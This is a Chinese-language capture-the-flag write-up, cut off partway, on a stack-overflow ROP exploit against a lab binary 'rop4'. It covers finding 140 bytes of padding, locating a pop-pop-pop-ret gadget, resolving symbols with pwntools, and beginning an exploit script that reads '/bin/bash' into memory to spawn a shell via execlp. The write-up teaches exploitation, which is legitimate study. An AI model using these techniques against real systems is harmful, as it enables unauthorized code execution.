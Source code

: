 栈上结构：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032007639.jpg)



#### 2、过程

##### 确定padding

```terminal
python -c 'print "A"*140 + "BBBB"' | strace ./rop4
```

前面的payload需要填充140bytes才能填到return address

![image-20211115214628248](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032007280.png)



##### 找ROP Gadget

`ROPgadget --binary rop4 --only "pop|ret"`

因为32位机器是从栈上传参的，所以read地址上面需要放read的三个参数。为了不妨碍这三个参数影响后续的执行，当read介绍要return的时候指向pop三次再ret的gadget地址，让这三个参数出栈。

![image-20211115232018410](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032007242.png)

找到：`0x0809cd25 : pop ebp ; pop esi ; pop edi ; ret`



##### 确定函数和全局变量的位置

可以直接利用`pwn`中的工具

```python
code = ELF("./rop4")
read_addr = code.symbols['__libc_read']
execlp_addr = code.symbols['execlp']
char_addr = code.symbols['exec_string']
exec_the_string = code.symbols['exec_the_string']
```



##### 构造payload

###### 方法一（execlp）：

```python
# coding=UTF-8

from pwn import *
context(os='linux', arch='i386', log_level='debug')

code = ELF("./rop4")
p = process('./rop4')

read_addr = code.symbols['__libc_read']
execlp_addr = code.symbols['execlp']
char_addr = code.symbols['exec_string']
pppr = 0x0809cd25

# 填充

payload = b"A"*140

# read(0,&exec_string,9)

# 把"/bin/bash"读入&exec_string
```